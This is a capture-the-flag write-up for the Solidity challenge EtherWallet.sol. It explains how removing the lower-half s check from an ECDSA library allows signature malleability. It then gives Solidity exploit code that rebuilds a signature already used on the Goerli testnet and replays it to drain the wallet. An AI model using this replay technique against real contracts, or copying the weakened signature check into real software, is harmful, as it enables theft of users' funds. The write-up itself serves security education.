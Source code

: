 # Solidity challenge EtherWallet.sol

## The objective

The task is simple: Steal all ether from the contract.

## Overview

`EtherWallet.sol` is a small wallet contract, anyone can deposit ether and anyone with a valid signature can withdraw. There are only two state variables and two functions, `withdraw(bytes memory signature)` and `transferOwnership(address newOwner)`. `transferOwnership` is copied from OpenZeppelins Ownable contract.

Function `withdraw` expects a signature and checks if its signed by the owner of the contract:

```solidity
function withdraw(bytes memory signature) external {
  require(!usedSignatures[signature], "Signature already used!");
  require(
    ECDSA.recover(keccak256("\x19Ethereum Signed Message:\n32"), signature) ==
      owner,
    "No permission!"
  );
  usedSignatures[signature] = true;

  uint256 balance = address(this).balance;
  payable(msg.sender).transfer(balance);

  emit Withdraw(msg.sender, balance);
}

```

It stores all used signatures in a mapping, preventing signature replay attacks:

```solidity
mapping(bytes => bool) public usedSignatures;
```

## Vulnerability

The code of `EtherWallet.sol` itself is fine, there are no hidden vulnerabilites, so we have to dig deeper. `EtherWallet.sol` uses library `ECDSA` for its signature verificiation, specifically function `recover`:

```solidity
function recover(
  bytes32 hash,
  uint8 v,
  bytes32 r,
  bytes32 s
) internal pure returns (address) {
  // If the signature is valid, return the signer address
  address signer = ecrecover(hash, v, r, s);
  require(signer != address(0), "ECDSA: invalid signature");

  return signer;
}

```

To hack this contract, one has to understand how ECDSA signatures work: Ethereum signatures consists of three integers: `v`, `r` and `s`.

ECDSA uses elliptic curves, which are **symmetric** over the x-axis -- `r` is related to the x coordinate of the elliptic curve, while `s` is related to
the y coordinate.

==> That means if `(r, s)` is a valid signature, `(r, n - s)` is valid too:

```
|| 0 1 2 s0 4 | 5 s1 7 8 n ||  <== s0=3 and s1=6 are both valid
```

We use `v` to find out which point to use, in Ethereum its either `0x1b` (27) for `s < n/2`, or `0x1c` (28) for `s > n/2`. For the secp256k1 curve used in Ethereum (and Bitcoin) `n` is `0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141`.

Battle tested contracts, like OpenZeppelin's ECDSA library, enforce that `s` is in the lower half, preventing the Signature malleability exploit. However, the built-in Ethereum function `ecrecover(hash, v, r, s)` does not. So, if theres an existing tx on the blockchain with values `v`, `r` and `s` we can simply compute the other valid `s` and adjust `v` accordingly, e.g. if `s < n/2`, compute `s_new = n - s` and change `v` from 27 to 28.

The `ECDSA` library used in this contract is similiar to OpenZeppelins library, but the important part, where it is enforced that `s` must be in the lower half, is removed.

## Exploit

Contract `EtherWallet` was deployed to the Goerli test network, see [Etherscan](https://goerli.etherscan.io/address/0x4b90946ab87bf6e1ca1f26b2af2897445f48f877).

After deployment, `withdraw` was called with signature `0x53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c`.

To exploit the vulnerability, we first have to extract values `v`, `r` and `s` from the signature:

```solidity
(r, s, v) = _getSignature(
    hex"53e2bbed453425461021f7fa980d928ed1cb0047ad0b0b99551706e426313f293ba5b06947c91fc3738a7e63159b43148ecc8f8070b37869b95e96261fc9657d1c"
);

function _getSignature(bytes memory signature)
    internal
    pure
    returns (
        bytes32,
        bytes32,
        uint8
    )
{
    bytes32 r;
    bytes32 s;
    uint8 v;
    // ecrecover takes the signature parameters, and the only way to get them
    // currently is to use assembly.
    /// @solidity memory-safe-assembly
    assembly {
        r := mload(add(signature, 0x20))
        s := mload(add(signature, 0x40))
        v := byte(0, mload(add(signature, 0x60)))
    }
    return (r, s, v);
}
```

Then do the necessary calculations:

```solidity
if (v == 27) {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 28 since we now use s in the upper half
    vNew = 28;
} else {
    bytes32 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;
    sNew = bytes32(uint256(n) - uint256(s));

    // set v to 27 since we now use s in the lower half
    vNew = 27;
}
```

Equipped with our new signature, we just have to call `withdraw` again:

```solidity
bytes memory newSignature = abi.encodePacked(r, sNew, vNew);
(bool success, bytes memory ret) = address(etherwallet).call(
    abi.encodeWithSignature("withdraw(bytes)", newSignature)
);
```

See [ExploitEtherWallet.sol](../script/exploits/ExploitEtherWallet.sol) for full code.

## Further information

- [EtherWallet.t.sol](../test/EtherWallet.t.sol) test script setting up and exploiting the contract
- [More info](http://coders-errand.com/malleability-ecdsa-signatures/) about signature malleability
